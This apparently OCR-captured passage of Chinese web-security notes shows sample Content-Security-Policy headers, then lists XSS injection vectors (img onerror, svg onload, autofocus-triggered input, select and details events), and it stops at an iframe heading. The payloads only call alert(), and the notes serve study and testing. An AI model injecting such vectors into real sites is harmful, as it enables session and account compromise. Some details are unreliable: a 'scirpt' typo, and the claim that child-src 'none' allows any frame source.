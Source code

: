 - 只允许加载本站资源

```
Content-Security-Policy: default-src ‘self’
```

- 图片只允许加载 HTTPS 协议

```
Content-Security-Policy: img-src https://*
```

- 允许加载任何来源框架

```
Content-Security-Policy: child-src 'none'
```

[CSP](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP) ( Content Security Policy )

#### XSS 注入方法

参考链接：https://xz.aliyun.com/t/4067

##### `<scirpt>`

    <scirpt>alert("xss");</script>

##### `<img>`

    <img src=1 onerror=alert("xss");>

##### `<input>`

    <input onfocus="alert('xss');">
    
    竞争焦点，从而触发onblur事件
    <input onblur=alert("xss") autofocus><input autofocus>
    
    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <input onfocus="alert('xss');" autofocus>

##### `<details>`

    <details ontoggle="alert('xss');">
    
    使用open属性触发ontoggle事件，无需用户去触发
    <details open ontoggle="alert('xss');">

##### `<svg>`

    <svg onload=alert("xss");>

##### `<select>`

    <select onfocus=alert(1)></select>
    
    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <select onfocus=alert(1) autofocus>

##### `<iframe>`
